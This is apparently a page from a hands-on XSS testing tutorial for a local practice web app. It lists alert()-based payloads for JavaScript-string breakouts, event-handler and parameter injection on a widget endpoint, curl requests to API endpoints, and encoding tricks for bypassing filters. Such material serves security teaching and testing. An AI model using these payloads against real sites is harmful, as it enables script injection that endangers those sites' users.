 #### 5.2 JavaScript Context Testing
Test XSS within JavaScript execution contexts:

```javascript
// Break out of JavaScript string
'; alert('JS_Context_XSS'); //

// Function injection
Function('alert("Function_XSS")')()

// Event handler injection
onclick="alert('Event_XSS')"
```

### Phase 6: Context-Specific XSS

#### 6.1 Widget Testing
Test the widget endpoint with different contexts:

```bash
# JavaScript context XSS
http://localhost:5000/widget?title=Test&callback=alert('Callback_XSS')

# HTML attribute context
http://localhost:5000/widget?title=" onmouseover="alert('Title_XSS')" "

# JSON context
http://localhost:5000/widget?config={"test": "value", "xss": "<script>alert('JSON_XSS')</script>"}
```

#### 6.2 API Endpoint Testing
Test JSON API responses:

```bash
# Search API XSS
curl "http://localhost:5000/api/search?q=<script>alert('API_XSS')</script>"

# Profile API XSS
curl "http://localhost:5000/api/profile/testuser?bio=<img src=x onerror=alert('API_Profile_XSS')>"
```

## 🎯 Advanced XSS Techniques

### 7.1 Filter Bypass Techniques

#### Character Encoding
```html
<!-- URL encoding -->
%3Cscript%3Ealert('XSS')%3C/script%3E

<!-- HTML entities -->
&lt;script&gt;alert('XSS')&lt;/script&gt;

<!-- Unicode encoding -->
<script>alert('\u0058\u0053\u0053')</script>
```
